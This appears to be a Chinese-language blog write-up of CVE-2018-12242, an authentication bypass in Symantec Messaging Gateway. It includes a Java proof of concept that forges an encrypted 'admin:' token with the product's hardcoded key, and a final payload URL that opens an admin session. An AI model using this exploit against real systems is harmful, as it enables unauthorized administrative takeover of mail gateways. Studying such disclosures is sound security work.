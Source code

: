 ```yaml
---
id: 295
title: CVE-2018-12242
date: 2018-11-12T21:26:46+00:00
author: bfpiaoran
layout: post
guid: http://www.cuijianxiong.top/?p=295
permalink: /?p=295
categories:
  - 未分类
---
```

poc 生成

Test.java

<pre class="pure-highlightjs"><code class="">import java.security.SecureRandom;
import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.PBEKeySpec;
import javax.crypto.spec.PBEParameterSpec;
import sun.misc.BASE64Encoder;

public class Test{
	public static void main(String args[]){
		try{
			//System.out.print(123);
			byte[] salt = new byte[8];
			SecureRandom random = SecureRandom.getInstance("SHA1PRNG");
			random.nextBytes(salt);
			PBEKeySpec keySpec = new PBEKeySpec("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ,./&lt;&gt;?;':\"\\{}`~!@#$%^&*()_+-=".toCharArray());
			SecretKeyFactory keyFactory = SecretKeyFactory.getInstance("PBEWithMD5AndDES");
			SecretKey key = keyFactory.generateSecret(keySpec);
			PBEParameterSpec paramSpec = new PBEParameterSpec(salt, 1000);
			Cipher cipher = Cipher.getInstance("PBEWithMD5AndDES");
			cipher.init(1, key, paramSpec);
			//byte[] salt;
			BASE64Encoder encoder = new BASE64Encoder();
			String saltString = encoder.encode(salt);
			String text = "admin:";
			byte[] ciphertext = cipher.doFinal(text.getBytes());
			String ciphertextString = encoder.encode(ciphertext);
			System.out.print(saltString + ciphertextString);
		}catch (Exception e){
			System.out.print(e);
		}

	}
}
</code></pre>

核心还是在加密解密这块

<img class="alignnone size-full wp-image-296" src="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111.png" alt="" width="554" height="492" srcset="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111.png 554w, http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-300x266.png 300w" sizes="(max-width: 554px) 85vw, 554px" /> 

&nbsp;

加密算法一直是固定的

但是FIPS186PRNG这个算法太古老了

&nbsp;

只能拿SHA1PRNG代替

<img class="alignnone size-full wp-image-297" src="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-1.png" alt="" width="554" height="446" srcset="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-1.png 554w, http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-1-300x242.png 300w" sizes="(max-width: 554px) 85vw, 554px" /> 

&nbsp;

接下来分析一波漏洞触发点

&nbsp;

token = BrightmailDecrypt.decrypt(token);

&nbsp;

接收到token用公共的解密方法解密

&nbsp;

解密之后按   “  :  ”

分割 前面为username  后面为 passwordhash

&nbsp;

然后按username做sql查询

&nbsp;

然后调用getAdministratorUserByName方法

&nbsp;

<img class="alignnone size-full wp-image-298" src="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-2.png" alt="" width="554" height="240" srcset="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-2.png 554w, http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-2-300x130.png 300w" sizes="(max-width: 554px) 85vw, 554px" /> 

&nbsp;

GetSQLAdministratorUserByName生成sql语句

然后查询

接着对比

如果user为空会抛出一个不存在该用户的异常

如果passwordhash与查询到的passwordhash不一致也会抛出异常

&nbsp;

那么passwordhash是什么呢

在开启重置密码选项后  该字段为空。。。

然后创建一个admin session的正常操作….

&nbsp;

&nbsp;

那么最终payload为

&nbsp;

/brightmail/action2.do?method=passwordReset&authorization=S9m%2bdmCBN8k%3dfot%2fxYG299k%3d

<img class="alignnone size-full wp-image-299" src="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-3.png" alt="" width="554" height="141" srcset="http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-3.png 554w, http://www.cuijianxiong.top/wp-content/uploads/2018/11/1111-3-300x76.png 300w" sizes="(max-width: 554px) 85vw, 554px" />